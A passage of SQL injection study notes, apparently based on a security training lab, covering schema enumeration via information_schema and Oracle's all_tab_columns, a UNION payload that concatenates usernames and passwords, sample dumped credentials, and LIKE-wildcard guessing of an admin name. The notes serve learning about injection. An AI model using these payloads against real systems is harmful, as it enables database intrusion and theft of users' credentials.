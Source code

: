 - query `information_schema.columns` to list the columns in individual tables:

`SELECT * FROM information_schema.columns WHERE table_name = 'Users'`

This returns output like the following:
```
| TABLE_CATALOG | TABLE_SCHEMA | TABLE_NAME | COLUMN_NAME | TABLE_TYPE |
| ------------- | ------------ | ---------- | ----------- | ---------- |
| MyDatabase    | dbo          | Users      | UserId      | int        |
| MyDatabase    | dbo          | Users      | Username    | varchar    |
| MyDatabase    | dbo          | Users      | Password    | varchar    |
```

---

#### Equivalent to information schema on Oracle
- list tables by querying all_tables:
  - `SELECT * FROM all_tables`

- list columns by querying all_tab_columns:
  - `SELECT * FROM all_tab_columns WHERE table_name = 'USERS'`


---

#### Retrieving multiple values within a single column

- instead that the query only returns a single column.
- can easily retrieve multiple values together within this single column by concatenating the values together,
- ideally including a suitable separator to let you distinguish the combined values.
- For example
  - on Oracle you could submit the input:
  - `' UNION SELECT username || '~' || password FROM users--`
  - the double-pipe sequence `||`: a string concatenation operator on Oracle.
  - The injected query concatenates together the values of the `username` and `password` fields, separated by the `~` character.

The results from the query will let you read all of the usernames and passwords, for example:

```bash
...
administrator~s3cure
wiener~peter
carlos~montoya
...
```



---

The use of a LIKE clause, another method of SQL injection
- Example:
- inserting wildcard characters (like %),
  - Then, the WHERE clause = TRUE when the argument strPartName is included as part of a part name:
  - Then, all parts names include the string `abc` will be returned.
  - `SELECT PartCost, PartName FROM PartsList WHERE PartName LIKE '%abc%';`
- employ the wildcard symbol to guess the admin username:
  - querying with `ad%`.

---